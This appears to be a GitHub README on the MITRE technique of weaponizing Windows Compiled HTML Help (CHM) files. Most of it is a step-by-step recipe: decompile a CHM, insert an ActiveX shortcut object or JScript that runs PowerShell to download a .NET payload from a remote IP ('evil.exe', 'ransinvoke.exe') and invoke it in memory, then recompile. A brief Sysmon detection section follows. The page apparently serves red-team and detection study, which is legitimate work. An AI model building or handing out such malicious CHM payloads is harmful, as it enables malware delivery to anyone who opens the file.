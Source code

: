 ## Compiled HTML Application

CHM files are help files in windows, just like the following

![NormalCHM](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Compiled HTML Apllication/Misc/NormalCHM.jpg)

this is the CHM file that came with process explorer from SysInternals, and like any windows based HTML files, it support *JS code* , so we can use JS to run PowerShell commands



if you have CHM file and you want to embed PowerShell script inside it, first you have to decompile the file

```powershell
hh.exe -decompile Extract doc.chm
```

you then we got many files htm and hhc file, open one of the htm and put this inside it

```xml
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=",cmd.exe,/c powershell -ep Bypass -nop -noexit -c ([System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://[Remote_IP]/evil.exe')).EntryPoint.Invoke($Null,$Null))">
 <PARAM name="Item2" value="273,1,1">
</OBJECT>

<SCRIPT>
x.Click();
</SCRIPT>
```

we created object with id x and put the PowerShell command in one of it's parameters then in the script tag we clicked on the object which fires the PowerShell

*about he entry point and invoke part, it will only work with .Net application so evil.exe must be .Net* 



we also can use chm as JS code so we can write malicious JS code inside the script tag and what's great about that is ***no Wscript process is created***, 

```vbscript
a = new ActiveXObject('Wscript.Shell');
cmd = "powershell -ep Bypass -nop -noexit -c ([System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://[IP]/ransinvoke.exe')).EntryPoint.Invoke($Null,$Null))";
a.Run(cmd,0);
```



but what is not good that user got a displayed warning

![ActiveXunsafe](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Compiled HTML Apllication/Misc/ActiveXunsafe.JPG)

if user didn't click yes, the ActiveX object will not run, but also many error in chm will happen



After writing the above code into the htm file we need to compile it into chm file as example



**Steps for creating Malicious CHM**:



if we decompile the chm file and we got 

- doc.hhc
- doc.htm
- doc.htm2



1- we will open doc.html or doc htm2 and append the above malicious code into it

2- then we will write the following hpp file

```powershell
[OPTIONS]
Contents file=C:\Users\Noname\Downloads\PowerCollectionsCHM\mal\doc.hhc
[FILES]
C:\Users\Noname\Downloads\PowerCollectionsCHM\mal\doc.htm
C:\Users\Noname\Downloads\PowerCollectionsCHM\mal\doc1.htm
```

3- compile the file using

```powershell
C:\Program Files (x86)\HTML Help Workshop\hhc.exe' .\doc.hpp
```


### Detection

- sysmon
  - Process Creation
    - hh.exe process create with command line referring to the chm file
    - cmd process with hh.exe as parent (if Jscript would fire cmd and PS)
    - PowerShell process with cmd as parent, the same cmd that has hh.exe as parent (if Jscript would fire cmd and PS)

![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Compiled%20HTML%20Apllication/Misc/Mermaid.jpg)


### Reference

[Link1] https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7  "cheat sheet"

